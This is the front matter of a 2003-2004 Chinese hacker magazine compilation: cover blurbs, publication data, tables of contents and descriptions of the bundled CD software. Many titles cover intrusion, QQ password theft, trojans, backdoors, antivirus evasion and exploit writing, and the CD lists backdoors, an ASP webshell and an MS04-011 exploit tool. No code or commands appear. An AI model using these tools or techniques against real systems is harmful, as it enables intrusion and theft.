# 黑客X档案合订本2003-2004年（下）第一部分


《黑客X档案》畅销系列丛书 菜鸟Hacker进化最佳教程

图书+手册+双CD ￥28.8

## 超强内容

- 打破传统的木马 RmlsVC
- 20CN 远程控制软件 专业反弹端口木马
- 《剑侠情缘》软件破解篇
- 利用Workstation深入渗透远程电影网络
- 痛并快乐着之入侵分析篇
- MS04 020:POSIX 本地权限提升漏洞抢鲜体验
- MSSQL Hello Buffer Overflow 漏洞溢出实战
- SNMP 弱口令在一次常规入侵中的应用
- 让Hack 利器度过杀毒软件的追杀
- 常见入侵错误原因分析与探讨
- 菜鸟缓冲区溢出编程起步篇
- 看我七十二变 反狙QQ实录

## 菜鸟随身看

- 网上邻居网天下
- mstsc 也能实现内网肉鸡命名
- 局域网处所网络执法官篇
- 利用ms04011漏洞做收发方案攻击
- 从Webshell 到肉鸡后门
- 密探“热血QQ破解版”
- 打造你的无敌战舰
- 学校局域网简单入侵
- 一次简陋的SQL弱口令攻击
- 菜鸟也玩SQL ASP注入
- 从程序的漏洞到服务器的安全渗透
- Discuz!2.2F 漏洞利用成功记
- 局域网安全杂谈
- 精心配置IIS打造安全Web服务器
- VMI脚本编程实现远程开启3389之新手体验
- 网页的监察及密码的获取




菜鸟乐园 合订本 2003-2004 下

菜鸟常见问题TOP 10
① 破解
② 入侵
黑客编程
冲击波专题
行踪不定的脚印
溢出漏洞的分析与探讨
步骤与高度



《黑客X档案》
Www.hackerxfiles.net



做一本和岩石一样硬的杂志
不让乌云磨灭锐利的个性
平民化 自由度 随意性突破极限

拥有国内人气指数最高的黑客类媒体................www.hackerxfiles.net

## 黑客X档案合订本
2003-2004年(下卷)


## 黑客X档案2003-2004合订本[下册]

黑客X档案编

*

内蒙古人民出版社

(呼和浩特市新城西街20号)

开本: 787X1092  1/16  印张: 31  字数: 800千

2004年12月第2版  2004年12月第2次印刷

印数: 1-5000

ISBN 7-204-06679-1  定价: 28.8元 (图书上手册书光盘)

## CONTENT

标题 ....................................... 页码 .. 期号

### 菜鸟乐园

- 菜菜教程——Windows 2000的空连接和弱口令的利用以及防御 .......... 10 ...... 2004.1
- 看我七十二变——反盗QQ实录 .......... 15 ...... 2004.1
- 关于Ping命令的有趣发现 .......... 20 ...... 2004.2
- 小鸡快跑之麻辣教师训练班 .......... 21 ...... 2004.3
- 139端口接力战 .......... 23 ...... 2004.3
- 麻辣教师系列之初入江湖 .......... 25 ...... 2004.4
- Pstools实例使用说明 .......... 28 ...... 2004.4
- 小鸡快跑情景剧场之风飘教室（一） .......... 31 ...... 2004.5
- 小鸡快跑情景剧场之风飘教室（二） .......... 33 ...... 2004.6
- 菜鸟猫反击网管之下载篇 .......... 38 ...... 2004.6
- 小鸡快跑情景剧场系列
  ——客座教兽之网上追凶 .......... 39 ...... 2004.7
- 菜鸟猫反击网管之双节棍篇 .......... 43 ...... 2004.7
- 小鸡快跑情景剧场之风飘教室（三）
  ——溢水实战篇 .......... 44 ...... 2004.7
- 也谈网吧种木马 .......... 47 ...... 2004.8
- QQ盗密终极方案 .......... 47 ...... 2004.9
- QQ IP攻防小全 .......... 50 ...... 2004.9
- 我不想成为别人的“小鸡” .......... 52 ...... 2004.10
- 详解入侵经典模式图之一——踩点大法 .......... 54 ...... 2004.10
- 一石二鸟——从一次测试
  谈擒获ADSL帐号与端星ID .......... 57 ...... 2004.11
- 详解入侵经典模式图之二
  ——存在性扫描 .......... 61 ...... 2004.11
- QQ终极防盗大全 .......... 63 ...... 2004.11
- 端口映射？你知多少？ .......... 67 ...... 2004.3
- 自己给电脑作安全检测——详解扫描报告 .......... 70 ...... 2004.4
- 详解入侵经典模式图之三——端口扫描 .......... 73 ...... 2004.12
- 自己搭建IIS找ASP程序漏洞 .......... 75 ...... 2004.12

标题 ....................................... 页码 .. 期号

- 突破网吧限制打开CMD窗口 .......... 94 ...... 2004.12

### 傻瓜用户手册

- 我的一次密码追踪经历 .......... 96 ...... 2003.9
- 菜鸟工具之共享搜索器 .......... 98 ...... 2003.9
- 隐藏文件又一法 .......... 98 ...... 2003.9
- SuperScan4.0再创佳绩 .......... 99 ...... 2003.10
- 反信息搜集战 .......... 100 ...... 2003.10
- 3389日志分析全攻略 .......... 101 ...... 2003.10
- 菜鸟的试验室——虚拟机 .......... 103 ...... 2003.11
- 我最爱的五款小工具 .......... 104 ...... 2003.11
- 局域网内再造肉鸡 .......... 106 ...... 2003.11
- Serv-U也玩远程控制 .......... 108 ...... 2003.11
- 有关AT命令的详细说明 .......... 109 ...... 2003.11
- QQ病毒追踪实录 .......... 110 ...... 2003.11
- 何愁C盘进不去 .......... 111 ...... 2003.11
- 再谈Tftp的应用 .......... 112 ...... 2003.11
- 黑软中的奇门兵刃 .......... 113 ...... 2003.12
- 消除终端服务的痕迹 .......... 115 ...... 2003.12
- Google的几种另类利用 .......... 117 ...... 2004.1
- 谁，悄悄开启了你的后门
  ——浅析Windows中的自启动 .......... 119 ...... 2004.1
- 自解压在入侵中的运用 .......... 120 ...... 2004.1
- 139端口实战与困惑 .......... 121 ...... 2004.1
- 十分钟实现免费上网 .......... 123 ...... 2004.1
- 平凡处见真功
  ——X-Scan 3.0抢鲜体验 .......... 124 ...... 2004.1
- 远程安装、替换终端服务一次搞定 .......... 126 ...... 2004.2
- 入侵中的新路径——浅谈WMI的利用 .......... 129 ...... 2004.2
- “本地鸡”之菜鸟接触篇 .......... 132 ...... 2004.2
- 忘记WinXP登陆密码解决之道 .......... 135 ...... 2004.2
- 进入网吧硬盘又一妙招 .......... 136 ...... 2004.2
- 昨日重现
  ——让DameWare控制Windows XP .......... 137 ...... 2004.2
- 忘记Windows XP/Server2003
  密码完美解决方法 .......... 140 ...... 2004.3
- Win2003新的命令行工具尝鲜 .......... 142 ...... 2004.3
- 小处不可随便 .......... 145 ...... 2004.4
- Pubwin4免费全攻略 .......... 147 ...... 2004.4
- 纵横局域网 .......... 150 ...... 2004.4
- SYN flood攻击与防御之我见 .......... 152 ...... 2004.5
- 查看日志也轻松 .......... 153 ...... 2004.5
- 利用SQL空口令再造不会飞的肉鸡 .......... 154 ...... 2004.5

### 网吧密笈

- 网吧下载权限随你拿 .......... 78 ...... 2004.10
- 旁门左道突破网络妙管家 .......... 80 ...... 2004.10
- 美萍电脑安全卫士各版本的极速破解 .......... 81 ...... 2004.10
- “恶”行网吧五毒招 .......... 83 ...... 2004.11
- 对第10期“网吧黑客”中
  两篇文章的一点补充 .......... 85 ...... 2004.11
- 在网吧磁盘“穿梭” .......... 87 ...... 2004.12
- 也谈Pubwin4之网吧破解 .......... 91 ...... 2004.12
- 禁用IE下载 WMP一分钟搞定 .......... 92 ...... 2004.12
- 让“免费”步入网吧——妙用杀毒助手 .......... 93 ...... 2004.12

标题 页码 期号

- 系统服务的瑞士军刀——SC 155 2004.6
- 内网脱贫记——打造自己的固定IP 157 2004.6
- WINNTAutoAttack 再度出击
  ——菜鸟觅肉鸡新传 158 2004.7
- 利用Win2000/XP自带工具简单玩控制 161 2004.7
- 在ADSL中使用Shed工具 162 2004.7
- 突破网站右键限制又一招 163 2004.7
- Winrar配合“海阳顶端”进行批量上传 164 2004.7
- 使用STRCM自动实现Remote Administrator
  服务端的远程安装、远程启动 165 2004.7
- 腾讯QQ漏洞之交友篇 168 2004.7
- 文件上传终极方案 169 2004.8
- 由PCF想到的恢复方法 170 2004.8
- 破解万象又一式 171 2004.8
- 自动登录Windows 2003三法 172 2004.8
- 由入侵引发的局域网共享问题 172 2004.8
- 关于“启动”的新发现 174 2004.8
- 3389疑点分析之XP篇 174 2004.8
- Win2K/XP用户密码破解及增强
  ——DreamPackPL 175 2004.8
- 我是这样得到杀毒软件正版序列号的 178 2004.9
- 智取肉鸡 179 2004.9
- GUI下杀进程解决之道 180 2004.9
- Radmin之自启动 181 2004.9
- NC的两则高级使用技巧 182 2004.10
- Win2000/XP中让人困惑的强行关机 183 2004.10
- 注入利器WED和WIS 185 2004.10
- Injection训练营
  ——脚本攻击演练软件Hacme Bank 187 2004.11
- 巧破校园网QQ限制 189 2004.11
- Recton——菜鸟的超级武器 190 2004.11
- ADSL是如何被“黑客”榨干的 190 2004.11
- “劫持域名”反击战 191 2004.11
- 另类搜库法 192 2004.4
- 让肉鸡近在咫尺
  ——Remote Task Manager 193 2004.4
- QQ实现肉鸡自动上线 195 2004.5
- 用金山网镖6彻底根绝QQ广告 196 2004.5
- 较高安全级别主机的渗透之序幕篇 197 2004.6
- 网页过关游戏全程图解 200 2004.12
- 菜鸟可乐 半瓶咣铛 203 2004.12
- XP无密码登陆 204 2004.12

标题 页码 期号

- 新“顽固分子”——木马Falling Star 205 2003.9
- 穿透防火墙的后门利器——IIS DOOR 209 2003.9
- 木马伪装术 210 2003.9
- 将你的密码一网打尽 211 2003.10
- 超级后门BITS 211 2003.10
- 打破传统的木马——RmtSvc 213 2003.10
- 剑走偏锋的后门——cmdbind2 215 2003.10
- 自由双节棍——迷你型
  反弹木马Darksky_Server 216 2003.11
- 优秀的后门程序——黑客守卫者hxdef 219 2003.11
- 20CN远程控制软件——专业反弹端口木马 220 2003.12
- 魔鬼5号+灰鸽子VIP
  ——尽可能打造永久肉鸡 225 2003.12
- 洋马新品——fearless lite 226 2003.12
- VNC在Linux中的应用 228 2004.1
- 超级后门——Superdoor 229 2004.1
- 内网木马webmyc应用详解 230 2004.2
- 局域网控制局域网 231 2004.2
- IIS后门重现 233 2004.4
- 别让banner出卖了你 234 2004.5
- 木马特征码的查找 235 2004.7
- 极品木马——赤兔rmtSvc&vIDC 237 2004.7
- 教你网上巧搜木马后门 241 2004.9
- 可以吞噬一切的黑洞 242 2004.10
- 又见yyt_hac's backdoor 245 2004.10
- WinEggDrop Shell 1.50终极版配置指南 246 2004.10
- 天空飞来新鸽子 247 2004.11
- 革命·木马免查杀器——伯乐(Boler) 250 2004.11
- 超级后门HACKER'S DOOR 251 2004.11
- 黑客守卫者清除方法 253 2004.3
- 轻松解决由于木马导致的文件夹联出错 254 2004.3
- 近乎完美的IIS后门 255 2004.5
- “名门闺秀”——灰鸽子MiNI Hacker版 258 2004.5
- 一旦拥有，别无所求——ProRat 260 2004.12
- 认识TCP与UDP协议 264 2003.9
- 《独孤九剑》软件破解篇之——破索式2 264 2004.5
- 《独孤九剑》软件破解篇之——破索式3 267 2004.6
- 爆破20CN远程控制软件
  &如何躲避杀毒软件 273 2004.4
- ollydbg破解之万能断点 274 2004.4

## CONTENTS

标题 ..................................... 页码 ..... 期号

标题 ..................................... 页码 ..... 期号

### 一、不快乐的卒

- 另类攻击——让 QQ 也成黑客帮凶 ........... 277 ........ 2003.9
- 我的非常规武器 .................................... 278 ........ 2003.9
- 通过简单入侵看 SQL 弱口令
  和 CGI 漏洞的危害性 ........................ 282 ........ 2003.9
- 五天 ........................................................ 283 ........ 2003.10
- 实例讲解入侵之后该做的事
  ——怎样保护肉鸡 ............................ 288 ........ 2003.10
- Serv-U FTP Server
  远程 / 本地提升权限缺陷 ................ 293 ........ 2003.12
- 如何用 Windows Messenger
  远程堆溢出漏洞 ................................ 297 ........ 2003.12
- Frontpage fp30reg.dll 远程溢出漏洞 ... 298 ........ 2003.12
- 溢出的另类玩法 .................................... 299 ........ 2003.12
- 利用 Workstation 深入渗透远程电影网络 . 301 ........ 2003.12
- DameWare Mini Remote Control
  远程缓冲区溢出漏洞 ........................ 306 ........ 2004.1
- Serv-U FTP Server
  远程管理密码泄露缺陷 .................... 307 ........ 2004.1
- NTFS 格式分区下实现
  提升权限的一些方法和思路 .............. 309 ........ 2004.2
- 痛定思痛之入侵分析篇 ........................ 311 ........ 2004.3
- Serv-U FTP 服务器 MDTM
  命令缓冲区远程溢出实战 ................ 314 ........ 2004.3
- 我的三个 HACK 小技巧 ........................ 315 ........ 2004.4
- cmd shell 下的信息刺探和远程控制 ....... 317 ........ 2004.4
- 基于 WebShell 的权限提升 ................... 319 ........ 2004.4
- 实战黑冰防火墙之溢出攻击 ................ 321 ........ 2004.5
- 劳动节的入侵之夜 ................................ 323 ........ 2004.5
- 利用 Windows 桌面消息
  处理漏洞实现权限提升 .................... 325 ........ 2004.5
- MS04-011 公告 Windows
  SSL Library 远程溢出实例 ................ 327 ........ 2004.5
- 蠕虫又要来了——记 Lsasrv.DLL 溢出攻击 329 ........ 2004.5
- 刺穿防火墙 ............................................ 330 ........ 2004.6
- ASP 漏洞基础篇 .................................... 332 ........ 2004.6
- 一次完整入侵——从 SA 到 3389 ........... 336 ........ 2004.7
- MS04-019 本地权限提升漏洞抢先体验 .. 338 ........ 2004.7
- MS04-020 POSIX
  本地权限提升漏洞抢先体验 .............. 339 ........ 2004.8
- 轻松取得 adsl 用户密码 ........................ 341 ........ 2004.8
- MSSQL Hello Buffer Overflow
  漏洞溢出实战 .................................... 342 ........ 2004.10
- 动网 7.0.0+Access+SP2 最新漏洞 ........ 343 ........ 2004.10
- XP 的噩梦——从 MS04-028 漏洞开始 ... 344 ........ 2004.11
- 轻松渗透内网 ........................................ 346 ........ 2004.11
- MS040-32 之“图形渲染
  引擎漏洞”利用抢鲜体验 .................... 348 ........ 2004.11
- 暴库：你藏好了吗？——轻松揪出数据库 . 349 ........ 2004.2
- IE IFRAME Tag 溢出漏洞的简单利用 .. 352 ........ 2004.12
- MSSQL db_owner 角色
  注入直接获得系统权限 .................... 354 ........ 2001.12
- SNMP 弱口令在一次常规入侵中的应用 .. 355 ........ 2004.12

### 二、漏洞攻击之旅

- 缓冲区溢出——入门谈 ........................ 356 ........ 2003.11
- 脚本漏洞攻击基础知识 ........................ 358 ........ 2003.11
- 程序攻击原理——堆栈溢出篇 ................ 359 ........ 2004.1
- 倚天不出 谁与争锋——记一款测试工具 .. 361 ........ 2004.9
- 轻松将 jmp esp 方式改写为 jmp ebx 方式 364 ........ 2004.5
- 秒杀防火墙及安全策略 ........................ 365 ........ 2004.6

### 三、安全防御技巧篇

- 用 iptables 防御反向管道 .................... 367 ........ 2003.9
- 一次入侵事件的完全分析 .................... 368 ........ 2003.10
- 最后的防线
  — Windows 环境下入侵数据的捕获 .... 370 ........ 2003.11
- 个人用户防御入侵方法 ........................ 371 ........ 2003.11
- 搭建蜜罐来保护 WEB 服务器 ............... 374 ........ 2003.12
- 永远消失的密码邮件 ............................ 376 ........ 2003.12
- 对最近微软溢出漏洞的防范对策 ........ 378 ........ 2004.1
- 对非法安装终端服务的一点防范方法 .. 379 ........ 2004.2
- 用 ServerMask 修改 IIS 头信息 ............. 382 ........ 2003.4
- 防火墙常用日志完全剖析 .................... 382 ........ 2004.5
- 让溢出攻击远离我们 ............................ 384 ........ 2004.7
- 打造论坛的安全底线 ............................ 385 ........ 2004.8
- 个人电脑的保护神
  ——网络安全助手个人版 ................ 387 ........ 2004.9
- 让 Windows XP 密码防线更加牢固 ...... 388 ........ 2004.11
- 让你的 FTP 服务器不再匿名 ................ 390 ........ 2004.5
- 骑驴找驴
  ——活用 Windows 字符串文件加密系统 ... 391 ........ 2004.5

### 四、黑客工具软件


## 目录

| 标题 | 页码 | 期号 | 标题 | 页码 | 期号 |
| --- | --- | --- | --- | --- | --- |
| 反弹端口后门的简单实现 | 396 | 2004.1 | 软件使用 | 430 | 2004.1 |
| 用VB编写网吧限制程序 | 398 | 2004.3 | 建立IPC$ | 431 | 2004.1 |
| 对端口窃听的实现 | 399 | 2004.6 | 漏洞溢出 | 432 | 2004.1 |
| 初探Windows缓冲溢出 | 400 | 2004.7 | 权力不足 | 432 | 2004.1 |
| 自己动手做QQ离线万能登录器 | 402 | 2004.8 | IPC$入侵过程中出现的问题 | 433 | 2004.1 |
| 用INET函数编写Discuz漏洞自找攻击程序 | 403 | 2004.12 | 服务器端配置 | 434 | 2004.1 |
| 让杀毒软件PASS EXE文件 | 405 | 2003.10 | 总结 | 435 | 2004.1 |
| 让Hack利器躲过杀毒软件的查杀 | 406 | 2004.6 | 菜鸟缓冲区溢出编程步步高 | 436 | 2004.8 |
| 利用NTFS数据流躲过杀毒软件隐藏后门 | 407 | 2004.10 | 一、让我们开始吧——缓冲区溢出原理剖析 | 436 | 2004.8 |
| QQ病毒再追踪 | 409 | 2004.2 | 二、升幂的Window系统结构——缓冲区溢出利用方法 | 436 | 2004.8 |
| 迷墙 The Wall | 412 | 2003.9 | 三、其他知识——shellcode编写简介 | 438 | 2004.8 |
| 防火墙基础 | 412 | 2003.9 | 四、管中窥豹——一个简单的本地溢出例子 | 439 | 2004.8 |
| 防火墙分析 | 413 | 2003.9 | 五、首次实战——FoxMail溢出漏洞编写 | 440 | 2004.8 |
| 刺穿防火墙 | 414 | 2003.9 | 六、牛刀小试——printer溢出漏洞编写 | 443 | 2004.8 |
| 图解设置 | 417 | 2003.9 | 七、jmp/call ebx——另一种溢出利用方式 | 443 | 2004.8 |
| 脚本攻击专题 | 421 | 2003.12 | 八、拾阶而上——idaidq溢出漏洞编写 | 445 | 2004.8 |
| 一、引言 | 421 | 2003.12 | 九、IIS中文版中的顶级应用——webdav溢出漏洞编写 | 446 | 2004.8 |
| 二、脚本攻击的分类及概述 | 421 | 2003.12 | 十、尾声 | 448 | 2004.8 |
| 三、攻击原理、实例 | 422 | 2003.12 | php+MySQL Injection专题 | 449 | 2004.10 |
| 四、漏洞分析 | 425 | 2003.12 | 一、学习php+MySQL注入的前提知识 | 449 | 2004.10 |
| 五、各种脚本攻击的防范 | 427 | 2003.12 | 二、magic_quotes_gpc=Off时的注入攻击 | 449 | 2004.10 |
| 六、服务器的设置 | 427 | 2003.12 | 三、magic_quotes_gpc=On时的注入攻击 | 456 | 2004.10 |
| 七、后记 | 428 | 2003.12 | 四、一些独特的个人注入技巧 | 457 | 2004.10 |
| 常见入侵错误原因分析与探讨 | 428 | 2004.1 | 五、注入XX网站实例 | 459 | 2004.10 |
| 原理性误解 | 428 | 2004.1 | 六、PHP+MySql注入攻击的防范 | 462 | 2004.10 |
|  |  |  | Serv-U漏洞总结报告 | 463 | 2004.2 |
|  |  |  | 1.Serv-U本地暴力破解漏洞 | 463 | 2004.2 |

## CONTENTS

| 标题 | 页码 | 期号 | 标题 | 页码 | 期号 |
| --- | --- | --- | --- | --- | --- |
| 2.Serv-U FTP Server 远程拒绝服务漏洞 | 463 | 2004.2 | 三、分析数据 | 473 | 2004.3 |
| 3.新的发现 | 463 | 2004.2 | 四、实例分析篇 | 476 | 2004.3 |
| 4.制作后门 | 467 | 2004.2 | 五、结束语 | 486 | 2004.3 |
| 5.一次利用过程 | 467 | 2004.2 | | | |
| 6.如何防范 | 468 | 2004.2 | | | |
| 7.随机的一次真实利用默认口令入侵详细过程 | 469 | 2004.2 | | | |
| 8.结束语 | 470 | 2004.2 | | | |

### Hack 展——Sniffer 应用之 Sniffer 数据解析 ...... 471 · 2004.3

提起 sniffer，大家都应该不陌生，中文名曰：嗅探器。相信很多人入侵成功并植入后门后的第一件事就是选择一个适合当前网络的嗅探器、以获得更多的对方信息、如果足够幸运，甚至可获得大量的密码信息和个人敏感信息。

- 一、前言 ........................................ 471 ...... 2004.3
- 二、Sniffer 的选择 ............................ 471 ...... 2004.3

### IIS 黑客行 ................................................................ 486 · 2004.4

Internet Information Services (IIS) 是微软内建在 W2K 系统、服务器版下的 Web 管理器，便于广大用户在 Intranet 或是 Internet 上轻松发布网站。微软当初推出 w2k 系统的本意就是与 Unix 争夺全世界的服务器市场份额，IIS 正是 w2k 系统的超级武器。

- 如何 web 服务器是 w2k+IIS 及其他信息 .. 486 ........ 2004.4
- IIS 经典漏洞及利用方法回眸 ................ 487 ........ 2004.4
- IIS 的 HACK 利用 ............................... 488 ........ 2004.4
- IIS 安全机制漫谈 ............................... 494 ........ 2004.4
- 总结 ................................................. 496 ........ 2004.4

## 菜鸟随身看

### 菜鸟入门

- 4 网上邻居网天下
- 8 mstsc也能实现给肉鸡命名
- 10 谁说DOS不中用了——DOS下的黑客小技巧
- 14 局域网恶作剧之网络执法官篇
- 17 利用 ms04011 漏洞破解万象妙管家
- 19 玩WINRAR也需要技巧
- 21 你会用搜索引擎吗？
- 25 利用按钮激活专家跳过序列号安装瑞星防火墙2004
- 26 虚拟磁盘加密大师Dekart Private Disk
- 30 巧妙恢复被彻底删除的Outlook邮件
- 33 W2K Server 也自动登录
- 34 找回WinXP的系统登陆密码
- 36 关于庖丁解牛的奇妙发现
- 38 用WinHex全面解除MP3剪辑软件MP3SJ的限制
- 42 校园网也能FlashGet

### 菜鸟进阶

- 44 从webshell到IIS后门
- 50 不被查杀的后门

### 病毒专区

- 53 解密“热血QQ 破解版”
- 55 浅谈硬盘保护卡原理及其破解方法
- 59 打造你的无敌战舰
- 68 TC.For.Windows.2.0的破解手记
- 74 巧解“网络爸爸”密码

### 漏洞攻防最前线

- 76 学校局域网简单入侵
- 78 一次简单的SQL 弱口令攻击
- 81 菜鸟也玩SQL ——ASP 注入
- 82 对校园网的一次安全检测
- 89 对当地教育部门网站的二次入侵
- 93 一次无聊的入侵
- 97 从程序的漏洞到服务器的安全渗透
- 102 不可忽视的论坛插件漏洞
- 104 Discuz!2.2F 漏洞再现江湖
- 111 灵机E动 敲开网通神秘地大门

### 安全点睛

- 116 局域网安全杂谈
- 120 精心配置IIS-打造安全Web服务器
- 127 Windows Server 2003 优化小技巧
- 128 Windows下如何收集入侵证据
- 134 利用Ghost 让系统一键还原

### 编程也疯狂

- 137 WMI 脚本编程实现远程开启3389之新手体验
- 145 VB 突破邮件限制
- 148 在VB中解决Access数据库安全的几点措施
- 153 网页的监控及密码的获取
- 157 用VB打造自己灰色按钮激活程序


## 软件 A 盘


### {玩软件}

迷你歌词(MiniLyrics) v3.1.1141 WINAMP的插件，它不但可以显示歌词，而且可以下载歌词，它解决了找歌词难的问题，可以自动到服务器上搜索、并且下载歌词。

影音嗅探专家 v2004.1209 一款在线电影地址嗅探工具，安装简单，使用更简单。在你进入某个电影网站时，启动本软件，点击某个电影后，在本软件的列表区就会出现这部电影的真实地址，并支持点右键用“影音传送带”下载。

妙趣单词 提供一种简洁、快速、高效、有趣的背单词的方式，通过一系列的激励机制，让使用者留恋于背单词的过程。软件中实时统计当前学习状态下各种信息。

Acronis Disk Director Suite 可以重新整理你的计算机以获得更好的表现和保证数据安全。可以改变大小、复制和移动分区而不丢失数据。可以安装多个和多重启动操作系统。

CrystalCPUID 处理器信息检测超频工具，支持几乎所有类型的处理器检测，最特别的是CrystalCPUID 具备完整的处理器及系统资讯侦测功能外还可调节K7/K8处理器及 Cyrix III / C3处理器倍频。

极速火龙CD压缩器 一款出色的音频格式压缩与转换的综合性音乐工具。

用键盘来弹奏音乐 Keyboard Music 是一个使用键盘来演奏乐器的软件，简单易用，可以演奏钢琴、小提琴、吉他、萨克斯、等100多种乐器。


### {游戏先锋}

恐怖小女孩Lenore 讲述一系列发生在小女孩身边的恐怖故事。

篮球流氓 发生在一伙热衷于篮球运动上的搞笑事件。

伊藤润二恐怖漫画精选集 收集众多伊藤润二的恐怖漫画，另类、恐惧是漫画的风格。

坏小子收拾房间 坏小子的父母要回来啦，这样脏糟糟，那么多不堪入目的东西怎么能让父母看到，快帮他收拾一下吧。

帮巫婆变美女 巫婆有着丑陋的面孔，她要用药水配置出天使美女的模样，你来帮帮她吧，配不好还会变成史莱克啊。

敲鞋跟 MM 穿高跟鞋很累，找个小子锤帮她把跟都敲掉吧，但一定要小心哦，别把鞋跟敲歪了，不然 MM 就要送医院了。

砖头文快跑 砖头文不仅要躲避各种障碍，还要甩开一些疯狂的花痴，好辛苦呀！玩法说明：自动起跑，左右键控制方向，空格起跳。

它为鼠标狂 鼠标指针＝萝卜？在这只兔子的眼里就是这样。见到你的指针它会奋不顾身的抓住，甩都甩不掉哦。别被它抓住。


### {其它补充}

国外创意广告 收集部分国外极具创意的搞笑广告片。

搞怪视频

五月天上海演唱会高潮片段

蔡依林的招牌动作

林俊杰的豆浆油条

孙燕姿的我也很想他

飞儿乐队的你的微笑


### {游戏先锋}

超Q版格斗 虽然是Q版，但是极具街机特色，大招、变身样样不少，而且你还可以从这个游戏中找到很多我们喜爱的卡通造型。

祖玛 一个时下很流行的小游戏，无论是从声音到画面都堪称一流，游戏分12大关和一个附加关。

射击泡泡龙 轻松休闲的桌面游戏。

超级方块 立体的连连看哦，没有试过吧？


### {电驴eMule}

收集网上一些整人、搞笑的图片。

## 软件 B 盘


### {2004工具-网络}

deploy : Win2000/XP下隐藏文件的好工具。

后门利器IISDOOR

SQLExec: 用于远程MS-SQL服务器上执行MS-DOS命令。

SuperScan: 端口扫描器老大。可以自定义端口列表，扫描方式，请求方式等等，扫描商品速度无人可比。

密码解霸: 以捕获Win9x/Win2k/WinXP下的几乎所有普通窗口的登录密码。

BITS: 进程管理器中看不到，平时没有端口，只是在系统中充当卧底的角色。

ActivePerl: Windows环境下的PERL语言源代码解释器。

天网防火墙: 根据系统管理者设定的安全规则（Security Rules）把守网络，提供强大的访问控制、应用选通、信息过滤等功能。


### {2004工具-其他}

DameWare: 一套功能强大的Windows NT 远程控制软件，是网管的好帮手，功能超强。

regshot: 小巧的注册表静态比较工具，它能快速地帮助您发现注册表的变化。

Symantec pcanywhere: 赛门铁克公司出品的最优秀的远程管理软件，包括许多新功能以及管理员工具。


Active Ports: 易用的TCP/IP与UDP端口监视工具，能显示哪些程序打开了哪些端口。

## 黑客X档案

FipScan：For 9X/ME/NT/2000/XP，基于命令行的ftp帐户扫描探测工具。

RAdmin：具有可以进行完全控制，屏幕监视，文件管理，远程DOS操作等功能。

ServerMask：可以帮助你替换或者删除服务器的Http头，使别人不能发现你运行的是何种系统。

Remote Task Manager：能够让你在远程管理NT的任务和进程，就象在本地机器使用任务管理器一样。


Auto Scan IIS LogFiles：一款小巧的IIS日志工具，免安装。

BlackICE PC Protection：ISS安全公司出品的一款著名的人侵检测系统，拥有强大的检测，分析以及防护功能。

MS04-011 Lsasrv远程溢出工具及演示动画

海阳顶端网asp木马2005：增加了几个功能。

fpipe.exe：一个端口重定向工具。

Dotpot PortReady：一个多线程的端口扫描工具，用于进行狂速端口扫描。

